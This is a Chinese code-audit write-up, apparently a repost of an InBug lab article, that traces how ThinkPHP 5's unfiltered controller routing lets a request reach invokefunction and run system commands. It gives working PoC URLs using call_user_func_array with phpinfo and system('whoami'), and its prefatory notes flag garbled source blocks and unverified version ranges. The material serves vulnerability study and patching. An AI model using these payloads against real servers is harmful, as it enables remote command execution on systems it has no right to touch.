## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实际5.0.14_full；概述&lt;=5.0.23与其他文修复阈值冲突，开头载荷混5.1.29

代码与实验材料：179行全文，run/routeCheck/exec源码全读但全部逐行反引号挤为一行；调试图未视检

来源证据范围：InBug原文，无官方commit

- **事实待核（1）**：version字段抽成环境和半截payload；依据：元数据为phpstorm+xdebug及poc片段，不是范围。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：版本外推无独立证据；依据：用5.0.14分析支撑&lt;=5.0.23及5.1.29复制载荷，需分支矩阵。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **实验改动边界（3）**：转码破坏关键源码；依据：PHP块被反引号压平且含注释，不能直接复用；末尾call_user_func(system(...))不是实际回调结构。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Thinkphp5 RCE 代码审计

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4G6mKlJxHP_aunfgzKBQkg)

               

**前言**

  

本着知其然，知其所以然的精神，对thinkphp5 控制器过滤不严导致的RCE漏洞进行了一次审计

```
`POC：``/thinkphp/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1``/thinkphp_5.0.22/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1``/thinkphp5.0.22/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1``/thinkphp5.1.29/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1``/thinkphp_5.1.29/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
```

  

影响版本：thinkphp 5.0.23及以下

```
`环境：phpstorm+xdebug``Thinkphp_5.0.14_full``phpstorm+xdebug环境可自行百度搭建``poc: ?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`
```

POC效果：



  

**开始审计**

  

前置知识：



入口文件：Thinkphp5的入口文件位于public目录下的index文件



跟进入口文件,先进行了一些配置加载、设置路由规则的工作



加载完之后进入start.php开始执行



Run方法：

```
`public static function run(Request $request = null)``{` `#初始化request对象` `$request = is_null($request) ? Request::instance() : $request;` `try {` `$config = self::initCommon();` `// 模块/控制器绑定` `if (defined('BIND_MODULE')) {` `BIND_MODULE && Route::bind(BIND_MODULE);` `} elseif ($config['auto_bind_module']) {` `// 入口自动绑定` `$name = pathinfo($request->baseFile(), PATHINFO_FILENAME);` `if ($name && 'index' != $name && is_dir(APP_PATH . $name)) {` `Route::bind($name);` `}` `}` `$request->filter($config['default_filter']);` `// 默认语言` `Lang::range($config['default_lang']);` `// 开启多语言机制 检测当前语言` `$config['lang_switch_on'] && Lang::detect();` `$request->langset(Lang::range());` `// 加载系统语言包` `Lang::load([` `THINK_PATH . 'lang' . DS . $request->langset() . EXT,` `APP_PATH . 'lang' . DS . $request->langset() . EXT,` `]);` `// 监听 app_dispatch` `Hook::listen('app_dispatch', self::$dispatch);` `// 获取应用调度信息` `$dispatch = self::$dispatch;` `// 未设置调度信息则进行 URL 路由检测` `if (empty($dispatch)) {` `$dispatch = self::routeCheck($request, $config);` `}` `// 记录当前调度信息` `$request->dispatch($dispatch);` `// 记录路由和请求信息` `if (self::$debug) {` `Log::record('[ ROUTE ] ' . var_export($dispatch, true), 'info');` `Log::record('[ HEADER ] ' . var_export($request->header(), true), 'info');` `Log::record('[ PARAM ] ' . var_export($request->param(), true), 'info');` `}` `// 监听 app_begin` `Hook::listen('app_begin', $dispatch);` `// 请求缓存检查` `$request->cache(` `$config['request_cache'],` `$config['request_cache_expire'],` `$config['request_cache_except']` `);` `$data = self::exec($dispatch, $config);` `} catch (HttpResponseException $exception) {` `$data = $exception->getResponse();` `}` `// 清空类的实例化` `Loader::clearInstance();` `// 输出数据到客户端` `if ($data instanceof Response) {` `$response = $data;` `} elseif (!is_null($data)) {` `// 默认自动识别响应输出类型` `$type = $request->isAjax() ?` `Config::get('default_ajax_return') :` `Config::get('default_return_type');` `$response = Response::create($data, $type);` `} else {` `$response = Response::create();` `}` `// 监听 app_end` `Hook::listen('app_end', $response);` `return $response;``}`
```

跟进run方法，首先是自动加载机制autoload加载think\app类



初始化、语言包加载、模块绑定等工作完成后开始获取调度信息dispatch，未设置调度信息则进入routecheck()方法进行url检测



Routecheck方法：

```
`public static function routeCheck($request, array $config)``{` `$path   = $request->path();` `$depr   = $config['pathinfo_depr'];` `$result = false;` `// 路由检测` `$check = !is_null(self::$routeCheck) ? self::$routeCheck : $config['url_route_on'];` `if ($check) {` `// 开启路由` `if (is_file(RUNTIME_PATH . 'route.php')) {` `// 读取路由缓存` `$rules = include RUNTIME_PATH . 'route.php';` `is_array($rules) && Route::rules($rules);` `} else {` `$files = $config['route_config_file'];` `foreach ($files as $file) {` `if (is_file(CONF_PATH . $file . CONF_EXT)) {` `// 导入路由配置` `$rules = include CONF_PATH . $file . CONF_EXT;` `is_array($rules) && Route::import($rules);` `}` `}` `}` `// 路由检测（根据路由定义返回不同的URL调度）` `$result = Route::check($request, $path, $depr, $config['url_domain_deploy']);` `$must   = !is_null(self::$routeMust) ? self::$routeMust : $config['url_route_must'];` `if ($must && false === $result) {` `// 路由无效` `throw new RouteNotFoundException();` `}` `}` `// 路由无效 解析模块/控制器/操作/参数... 支持控制器自动搜索` `if (false === $result) {` `$result = Route::parseUrl($path, $depr, $config['controller_auto_search']);` `}` `return $result;``}`
```

跟进routecheck()方法，routecheck方法对pathinfo进行分析（tips:thinkphp的pathinfo格式为模块/控制器/操作/[参数名/参数值]）



调用path()方法获取到url的pathinfo信息，返回path=” index/think\app/invokefunction” 

格式为模块名：index  

控制器名：think\app

操作名：invokefuncton

Routecheck()方法载入路由，对比pathinfo以生成调度信息



随后进入路由检测，读取路由缓存内容、导入路由配置，随后进入check()方法根据解析的pathinfo信息与路由进行对比，因路由规则中不存在对应的路由信息，返回$result=fasle，代表路由无效，无调度信息



因为根据路由缓存检测出调度信息无效，所以进入parseURL进行URL的解析进行url的解析以再次获取调度信息  



跟进parseURL，parseURL中调用了parseUrlPath来解析url，此时url= “index|think\app|invokefunction”。 parseurlPath将url解析为数组形式，$path:{“index”,”think\app”,”invokefunction”},分别为模块、控制器、操作



ParseURL对parseURLpath返回的数组$path进行模块、控制器、操作的解析，得到结果：模块$module = “index”  控制器$controller=”think\app”  操作 $action = “invokefunction”



随后对获取的信息进行路由封装，得到$route = {“index“,”think\app”,”invokefunction”}



继续跟进，对路由进行记录、检测缓存信息，完成后进入exec()方法



Exec方法：

```
`protected static function exec($dispatch, $config)``{` `switch ($dispatch['type']) {` `case 'redirect': // 重定向跳转` `$data = Response::create($dispatch['url'], 'redirect')` `->code($dispatch['status']);` `break;` `case 'module': // 模块/控制器/操作` `$data = self::module(` `$dispatch['module'],` `$config,` `isset($dispatch['convert']) ? $dispatch['convert'] : null` `);` `break;` `case 'controller': // 执行控制器操作` `$vars = array_merge(Request::instance()->param(), $dispatch['var']);` `$data = Loader::action(` `$dispatch['controller'],` `$vars,` `$config['url_controller_layer'],` `$config['controller_suffix']` `);` `break;` `case 'method': // 回调方法` `$vars = array_merge(Request::instance()->param(), $dispatch['var']);` `$data = self::invokeMethod($dispatch['method'], $vars);` `break;` `case 'function': // 闭包` `$data = self::invokeFunction($dispatch['function']);` `break;` `case 'response': // Response 实例` `$data = $dispatch['response'];` `break;` `default:` `throw new \InvalidArgumentException('dispatch type not support');` `}` `return $data;``}`
```

跟进exec()方法，exec根据dispatch数组中type字段的值进入module分支,并调用module方法



跟进module方法，module方法首先对模块进行部署、初始化、缓存检查



随后module方法获取模块名index、控制器名think\app、操作名invokefunction



随后分别进入controller()方法、parseName()方法、action()方法设置控制器、操作并载入





设置并加载控制器、操作后通过is_callable()查看invokefunction是否能被调用，若不可调用则抛出404不存在



随后进入invokemethod方法



跟进invokemethod，invokemethod通过反射机制ReflectionMethod调用操作invokefunction，bindParams用于获取绑定参数 args = {“call_user_func_array”,”{system”, {“whoami”\}\}”}



此时通过反射机制将调用操作指定为invokefunction ,将参数绑定为args = {“call_user_func_array”,”{system”, {“whoami”\}\}”}

随后进入invokeargs方法，invokeargs通过反射进入invokefunction方法，在此设置反射为call_user_func_array(),绑定参数为system和whoami



再次调用invokeargs()方法，成功调用call_user_func(system(“whoami”))达到远程代码执行的目的 



退出module达到命令执行目的



  

**总结**

  

结合此次RCE审计流程来看，漏洞点主要是解析pathinfo的时候并没有对控制器操作进行过滤，导致恶意用户将控制器操作指向invokefunction，再结合call_user_fun_array达到了远程代码任意执行的攻击效果，通过对比thinkphp发布的补丁可以看出，thinkphp通过增加对控制器名的过滤达到修复。

  ** InBug实验室 ** 信息安全相关信息推送，专注于红蓝对抗。 14篇原创内容   公众号

---

